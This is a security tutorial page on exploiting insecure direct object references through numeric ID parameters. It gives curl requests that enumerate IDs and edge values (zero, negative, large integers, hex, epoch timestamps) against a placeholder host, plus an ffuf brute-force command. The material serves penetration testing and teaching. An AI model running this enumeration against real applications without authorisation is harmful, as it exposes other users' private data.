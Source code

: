 ```yaml
---
title: Numeric Value Parameter in IDOR Exploitation
description: Learn techniques to exploit IDOR vulnerabilities through numeric value
  parameters in web applications, including manual and automated enumeration.
keywords:
- Numeric Value Parameter
- IDOR
- Web Security
- Numerical Enumeration
- Access Control
- Security Exploitation
- Hexadecimal ID
- Epoch Timestamp
- Vulnerability Testing
---
```


# Numeric Value Parameter

## Context

In web applications, vulnerabilities associated with numeric value parameters can lead to significant security risks if not properly controlled. Such vulnerabilities fall within the realm of Insecure Direct Object References (IDOR), where numeric identifiers are exploited to access unauthorized objects. This tutorial aims to demonstrate the techniques used to exploit these vulnerabilities by manipulating numeric value parameters. Assumed knowledge includes an understanding of numeric identifiers, basic parameter handling, access control mechanisms, and the broader concept of IDOR.

## Theory

### Numeric Value Parameters in Web Applications

Numeric value parameters are commonly used as identifiers within web applications. These identifiers are typically integer-based and are passed within URLs or HTTP requests, such as `id=123`. The simplicity and predictability of sequential numeric IDs make them convenient for development. However, they can also pose security risks when not adequately safeguarded, leading to potential unauthorized access to resources.

### Attack Surface: Numeric ID Enumeration

When numeric value parameters lack proper access control, they become susceptible to enumeration attacks. An attacker can increment or decrement the numeric IDs within the request to access resources not meant for them. By modifying these values strategically, attackers can reveal unauthorized objects or data.

The attack often starts by sending requests with known IDs and incrementally adjusting them to discover more accessible resources. Additionally, using edge-case values such as negative numbers or extremely large integers can reveal logic flaws or even bypass mechanisms.

### Variants of Numeric Parameters

Numeric parameters may not always be in a straightforward decimal format. Hexadecimal representations or epoch timestamps are also used in some applications. Understanding the different formats is crucial as they may process or validate differently in the backend. Identifying and manipulating these variants enable attackers to discover weaknesses in how an application handles and protects its resources.

## Practice

### Manual Numeric ID Enumeration and Exploitation

Manual exploitation involves directly manipulating numeric IDs to test an application's security controls. Follow these steps to manually enumerate and identify potential vulnerabilities:

- Use `curl` to make an initial request with a known numeric ID:

    ```bash
    curl -i 'https://target-app.com/resource?id=1'
    ```
    _Request resource with a known or guessed numeric ID._

- Increment the ID to test for unauthorized access:

    ```bash
    curl -i 'https://target-app.com/resource?id=2'
    ```
    _Increment ID to test for unauthorized access._

- Continue the increment to enumerate accessible objects:

    ```bash
    curl -i 'https://target-app.com/resource?id=3'
    ```
    _Continue incrementing to enumerate accessible objects._

- Test an edge-case value (zero):

    ```bash
    curl -i 'https://target-app.com/resource?id=0'
    ```
    _Test edge-case value (zero)._

- Test a negative value for logic flaws:

    ```bash
    curl -i 'https://target-app.com/resource?id=-1'
    ```
    _Test negative value for logic flaws._

- Test large integer for overflow or bypass attempts:

    ```bash
    curl -i 'https://target-app.com/resource?id=2147483647'
    ```
    _Test large integer for overflow or bypass._

- Test hexadecimal representation if accepted by the application:

    ```bash
    curl -i 'https://target-app.com/resource?id=0x10'
    ```
    _Test hexadecimal representation if accepted._

- Test epoch timestamp if you suspect that format is being used:

    ```bash
    curl -i 'https://target-app.com/resource?id=1672531200'
    ```
    _Test epoch timestamp if format is suspected._

Successful execution of these steps might allow access to sensitive data or resources not initially provisioned for unauthorized users.

### Automated Numeric ID Brute-force with ffuf

Automation can enhance the speed and efficiency of numeric ID enumeration. The following steps use `ffuf` to automate this process:

- Use `ffuf` to brute force numeric IDs using a wordlist of numbers:

    ```bash
    ffuf -u 'https://target-app.com/resource?id=FUZZ' -w /usr/share/wordlists/numbers.txt -mc 200
    ```
    _Automate numeric ID enumeration using a wordlist of numbers._

This automated technique can rapidly discover accessible resources through thorough numeric parameter fuzzing, potentially revealing unauthorized access to sensitive data.

## Tools

- **curl**
- **ffuf**